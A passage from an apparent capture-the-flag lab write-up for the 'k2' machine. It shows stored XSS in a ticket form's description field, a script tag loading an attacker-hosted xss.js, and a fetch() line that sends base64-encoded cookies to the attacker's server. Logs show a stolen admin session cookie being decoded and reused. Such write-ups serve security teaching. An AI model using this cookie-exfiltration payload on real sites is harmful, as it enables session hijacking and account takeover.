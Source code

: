 ![Basecamp Web 80 IT Register](basecamp_web_80_it_register.webp){: width="1200" height="600" }

After registering an account and logging in, we are redirected to `http://it.k2.thm/dashboard`, where we see a form for submitting tickets.

![Basecamp Web 80 IT Dashboard](basecamp_web_80_it_dashboard.webp){: width="1200" height="600" }

Testing the form with an XSS payload, we receive a hit on our web server from the server for `desc.jpg`, confirming that the `description` parameter is vulnerable.

![Basecamp Web 80 IT XSS Payload](basecamp_web_80_it_xss_payload.webp){: width="1200" height="600" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.123.196 - - [28/Sep/2024 00:29:00] code 404, message File not found
10.10.123.196 - - [28/Sep/2024 00:29:00] "GET /desc.jpg HTTP/1.1" 404 -
```

Now we can try to steal the cookies for the user by changing our payload to `<script src="http://10.11.72.22/xss.js"></script>` and creating `xss.js` as follows:

```js
fetch("http://10.11.72.22/?c="+btoa(document.cookie));
```
{: file="xss.js"}

![Basecamp Web 80 IT XSS Payload Two](basecamp_web_80_it_xss_payload_two.webp){: width="1200" height="600" }

After some time, we observe the user first fetching our `xss.js`, followed by a request that includes the cookies.

```console
10.10.123.196 - - [28/Sep/2024 00:38:00] "GET /xss.js HTTP/1.1" 200 -
10.10.123.196 - - [28/Sep/2024 00:38:00] "GET /?c=c2[REDACTED]QQ== HTTP/1.1" 200 -
```
{: .wrap}

Decoding the value we received from **base64**, we obtain a cookie.

```console
$ echo c2[REDACTED]QQ== | base64 -d
session=eyJh[REDACTED]NwiA
```
{: .wrap }

### SQL Injection

Now, we navigate to `http://admin.k2.thm/` and set the cookie we obtained.

![Basecamp Web 80 Admin Cookie](basecamp_web_80_admin_cookie.webp){: width="1200" height="600" }

With that, we gain access to `http://admin.k2.thm/dashboard`.

![Basecamp Web 80 Admin Dashboard](basecamp_web_80_admin_dashboard.webp){: width="1200" height="600" }
